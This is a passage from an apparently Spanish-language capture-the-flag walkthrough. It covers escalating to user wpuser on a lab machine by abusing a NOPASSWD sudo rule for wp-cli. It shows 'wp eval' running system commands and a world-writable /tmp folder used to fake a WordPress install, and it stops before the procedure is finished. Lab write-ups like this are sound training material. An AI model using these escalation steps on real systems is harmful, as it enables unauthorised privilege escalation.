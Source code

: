 ## Escalate user wpuser

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for app on de41e2e0eb7b:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User app may run the following commands on de41e2e0eb7b:
    (wpuser) NOPASSWD: /usr/local/bin/wp
```

Vemos que podemos ejecutar el binario `wp` como el usuario `wpuser` por lo que vamos a ver que hace dicho binario.

Si buscamos informacion sobre dicho binario veremos que podemos ejecutar comando con el binario bajo el usuario `wpuser` en este caso, pero si intentamos algo asi:

```shell
sudo -u wpuser /usr/local/bin/wp eval 'system("id");'
```

Veremos que nos da un error de que el `PATH` al que esta intentando acceder dicho usuario donde contiene el `wordpress` no es accesible o no esta bien configurado, si nosotros le pasamos como parametro el `PATH` donde esta el `Wordpress` tampoco nos dejara ya que hay algo en la maquina que no lo esta permitiendo:

```shell
sudo -u wpuser /usr/local/bin/wp --path=/var/www/bicho.dl eval 'system("id");'
```

Info:

```
Error: This does not seem to be a WordPress installation.
The used path is: /var/www/bicho.dl/
Pass --path=`path/to/wordpress` or run `wp core download`.
```

Pero esto tiene una facil solucion, podemos descargarnos los archivos del `wordpress` con dicho usuario en una carpeta en `tmp` para simular que es un `wordpress` de la siguiente forma:

```shell
mkdir /tmp/fakewp
cd /tmp/fakewp
chmod 777 /tmp/fakewp
```

Una vez creado la carpeta dandole los permisos necesarios y metiendonos dentro de la misma, haremos lo siguiente:

```
sudo -u wpuser /usr/local/bin/wp core download
```

Con esto lo que haremos sera descargar todo el contenido de `wordpress`a dicha carpeta, una vez que se haya descargado todo, moveremos el archivo de configuracion de la `DDBB` para que tenga el nombre que necesita para `wordpress`.
